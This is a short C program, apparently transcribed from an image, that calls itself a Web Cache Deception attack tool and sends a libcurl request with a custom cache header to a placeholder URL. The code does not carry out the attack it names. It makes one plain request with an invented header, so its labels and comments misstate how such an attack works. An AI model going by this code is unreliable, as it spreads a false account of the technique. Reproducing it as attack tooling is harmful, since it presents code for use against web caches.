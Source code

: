 ```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <curl/curl.h>

#define VULNERABLE_URL "http://example.com/vulnerable_endpoint?param=value"

// Function to perform a Web Cache Deception attack
void perform_deception() {
    CURL *curl;
    CURLcode res;

    // Initialize libcurl
    curl = curl_easy_init();
    if (!curl) {
        fprintf(stderr, "Error initializing libcurl\n");
        exit(EXIT_FAILURE);
    }

    // Set the target URL for the Web Cache Deception attack
    curl_easy_setopt(curl, CURLOPT_URL, VULNERABLE_URL);

    // Set custom request headers to manipulate caching behavior
    struct curl_slist *headers = NULL;
    headers = curl_slist_append(headers, "X-Ignore-Cache: true");
    curl_easy_setopt(curl, CURLOPT_HTTPHEADER, headers);

    // Perform the Web Cache Deception attack
    res = curl_easy_perform(curl);
    if (res != CURLE_OK) {
        fprintf(stderr, "Error performing Web Cache Deception attack: %s\n", curl_easy_strerror(res));
        curl_slist_free_all(headers);
        curl_easy_cleanup(curl);
        exit(EXIT_FAILURE);
    }

    // Cleanup libcurl
    curl_slist_free_all(headers);
    curl_easy_cleanup(curl);
}

int main() {
    printf("Starting Web Cache Deception attack...\n");

    // Perform the Web Cache Deception attack
    perform_deception();

    printf("Web Cache Deception attack completed.\n");

    return 0;
}
```
